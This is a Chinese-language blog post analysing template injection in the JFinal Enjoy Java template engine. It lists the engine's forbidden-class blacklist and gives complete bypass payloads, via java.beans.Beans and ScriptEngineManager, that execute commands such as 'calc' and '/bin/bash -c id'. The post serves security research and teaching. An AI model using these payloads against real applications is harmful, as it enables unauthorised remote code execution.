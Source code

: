```yaml
---
layout: post
title: Enjoy模板注入引擎分析
categories: [blog ]
tags: [Java,]
description: "测验"
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: cxkjy.github.io


---
```






# Enjoy模板注入引擎分析

### 前置

```
首先需要了解一下JFinal框架 https://jfinal.com/doc/6-1（官方文档）
Enjoy 模板引擎专为 java 开发者打造，所以坚持两个核心设计理念：一是在模板中可以直接与 java 代码通畅地交互，二是尽可能沿用 java 语法规则，将学习成本降到极致。
```

### 首先学一下表达式

#### 属性访问：

```
user.name为例
```

- 如果user.getName()存在，则优先调用
- 如果user具有public修饰过的name属性，则取user.name属性值（注意：jfinal 4.0 之前这条规则的优先级最低）
- 如果 user 为 Model 子类，则调用 user.get("name")
- 如果 user 为 Record，则调用 user.get("name")
- 如果 user 为 Map，则调用 user.get("name")

#### 方法调用

在模板中直接调用对象上的任何public方法

```
#("ABCDE".substring(0, 3))
#(girl.getAge())
#(list.size())
#(map.get(key))
```

#### 静态属性访问

自jfinal 5.0.2开始，该表达式默认“未启用”，启用需要添加如下配置：

```java
engine.setStaticFieldExpression(true);
```

例子：

````java
#if(x.status==com.demo.common.model.Account::STATUS_LOCK_ID)
 <span>(账号已锁定)</span>
#end
````

通过类名加双冒号再加静态属性名即为静态属性访问表达式

由于以上比较复杂，可以用 #set(STATUS_LOCK_ID=上面的一串)将常量值赋给一个变量。

` 注意，这里的属性必须是public static修饰过的才可以被访问。此外，这里的静态属性并非要求为final修饰。`

#### 静态方法调用

自jfinal 5.0.2开始，该表达式默认"未启用"，启用需要添加如下配置：

```java
engine.setStaticMethodExpression(true);
```

```
#if(com.jfinal.kit.StrKit::isBlank(title))
   ....
#end
```

此外，还可以调用静态属性上的方法，以下是代码示例：

1. (com.jfinal.MyKit::me).method(paras)

### 以上这么多理论举一个代码的实例：

```mariadb
 <dependency>
            <groupId>com.jfinal</groupId>
            <artifactId>enjoy</artifactId>
            <version>4.9.21</version>
        </dependency>
```

```java
package com.example;

import java.io.IOException;

public class user {
    public static void run(){
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

```java
package com.example;

import com.jfinal.template.Engine;
import com.jfinal.template.Template;

public class main {
    public static void main(String[] args) {
        Engine engine=new Engine();
        Template template=engine.getTemplateByString("#(com.example.user::run())");
        template.renderToString();
    }
}

```

执行完成后发现执行了 com.example.user的静态方法run

## RCE 

在Engine init就会进行一个黑名单的对比

![image-20231006145803177](..\img\final\image-20231006145803177.png)

对类和类的方法都有一个黑名单

```
System.class, Runtime.class, Thread.class, Class.class, ClassLoader.class, File.class, Compiler.class, InheritableThreadLocal.class, Package.class, Process.class, RuntimePermission.class, SecurityManager.class, ThreadGroup.class, ThreadLocal.class, Method.class, Proxy.class, ProcessBuilder.class, MethodKit.class
```

```
"getClass", "getDeclaringClass", "forName", "newInstance", "getClassLoader", "invoke", "notify", "notifyAll", "wait", "exit", "loadLibrary", "halt", "stop", "suspend", "resume", "removeForbiddenClass", "removeForbiddenMethod"
```

`所以就是如何绕过这些黑名单或者，利用黑名单以外某些类来达到命令执行的效果`

### 通过第三方依赖（fastjson达到rce）

```java
set(x=com.alibaba.fastjson.parser.ParserConfig::getGlobalInstance())
#(x.setAutoTypeSupport(true))
#(x.addAccept("javax.script.ScriptEngineManager"))
#set(a=com.alibaba.fastjson.JSON::parse('{"@type":"javax.script.ScriptEngineManager"}'))
#set(b=a.getEngineByName('js'))
#set(payload=xxxxxx)
#(b.eval(payload))
```

### Java自带类绕过

用的是 java.beans.Beans 这个类

重要的是这个类中有一个静态的instantiate方法，并且方法体里面有反射和实例化

![image-20231006151543587](..\img\final\image-20231006151543587.png)

![image-20231006151626044](..\img\final\image-20231006151626044.png)

这里跟进findclass其实就是forname反射，第二个参数是类加载器null在这里就可以

![image-20231006151729723](..\img\final\image-20231006151729723.png)

![image-20231006151703005](..\img\final\image-20231006151703005.png)



## 简单的剖析一下payload

```java
Template template=engine.getTemplateByString("#set((java.beans.Beans::instantiate(null,\"javax.script.ScriptEngineManager\")).getEngineByExtension(\"js\").eval(\"function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\\\"calc\\\")\"))");

首先实例化获得ScriptEngineManger对象，然后用js执行java代码
    
#set((java.beans.Beans::instantiate(null,\"javax.script.ScriptEngineManager\")).getEngineByExtension(\"js\").eval(\"function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\\\"calc\\\")\"))
```

![image-20231006152016534](..\img\final\image-20231006152016534.png)

有回显

```java
base=#((java.beans.Beans::instantiate(null,"javax.script.ScriptEngineManager")).getEngineByExtension("js").eval("var s = [3];s[0] = \"/bin/bash\";s[1] =\"-c\";s[2] = \"id\";var p =java.lang.Runtime.getRuntime().exec(s);var sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\A\");var result = sc.hasNext() ? sc.next() : \"\";sc.close();result;"))
```



## JavaScript命令执行

javax.script.ScriptEngine类是java自带的用于解析并执行js代码,可以在javascript中执行java代码.

#### 核心代码

```java
String str = "Jscode";
        ScriptEngineManager manager = new ScriptEngineManager(null);
        ScriptEngine engine = manager.getEngineByName("js");
        engine.eval(str);
```

详细代码：

```java
import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
import javax.script.ScriptException;
public class Jsexec {
    public static void main(String[] argv) throws ScriptException {
        String str = "function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\"open -a Calculator\");";
        ScriptEngineManager manager = new ScriptEngineManager(null);
        ScriptEngine engine = manager.getEngineByName("js");
        engine.eval(str);
    }
}
```

